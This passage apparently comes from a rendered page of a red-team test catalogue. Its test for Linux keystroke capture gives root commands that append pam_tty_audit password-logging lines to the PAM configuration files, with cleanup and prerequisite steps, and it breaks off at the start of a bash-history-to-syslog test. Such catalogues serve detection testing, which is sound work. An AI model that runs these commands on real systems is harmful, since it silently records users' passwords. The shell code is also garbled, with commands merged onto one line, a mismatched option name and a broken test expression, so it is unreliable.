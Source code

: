 Passwords hidden by the console can also be logged, with 'log_passwd' as in this example. If root logging is enabled, then output from any process which is later started by root is also logged, even if this policy is carefully enabled (e.g. 'disable=\*' as the initial command).

Use 'aureport --tty' or other audit.d reading tools to read the log output, which is binary. Mac OS does not currently contain the pam_tty_audit.so library.

**Supported Platforms:** Linux

**auto_generated_guid:** 9c6bdb34-a89f-4b90-acb1-5970614c711b

#### Attack Commands: Run with `sh`! Elevation Required (e.g. root or admin)

```sh
if sudo test -f /etc/pam.d/password-auth; then sudo cp /etc/pam.d/password-auth /tmp/password-auth.bk; fi;
if sudo test -f /etc/pam.d/system-auth; then sudo cp /etc/pam.d/system-auth /tmp/system-auth.bk; fi;
sudo touch /tmp/password-auth.bk
sudo touch /tmp/system-auth.bk sudo echo "session    required    pam_tty_audit.so
enable=* log_password" >> /etc/pam.d/password-auth sudo echo "session    required    pam_tty_audit.so
enable=* log_password" >> /etc/pam.d/system-auth
```

#### Cleanup Commands:

```sh
sudo cp -f /tmp/password-auth.bk /etc/pam.d/password-auth
sudo cp -f /tmp/system-auth.bk /etc/pam.d/system-auth
```

#### Dependencies: Run with `sh`!

##### Description: Checking if pam_tty_audit.so is installed

##### Check Prereq Commands:

```sh
test -f '/usr/lib/pam/pam_tty_audit.so -o  /usr/lib64/security/pam_tty_audit.so'
```

##### Get Prereq Commands:

```sh
echo "Sorry, you must install module pam_tty_audit.so and recompile, for this test to work"
```

<br/>
<br/>

## Atomic Test #3 - Logging bash history to syslog

There are several variables that can be set to control the appearance of the bash command prompt: PS1, PS2, PS3, PS4 and PROMPT_COMMAND. The contents of these variables are executed as if they had been typed on the command line. The PROMPT_COMMAND variable "if set" will be executed before the PS1 variable and can be configured to write the latest "bash history" entries to the syslog.
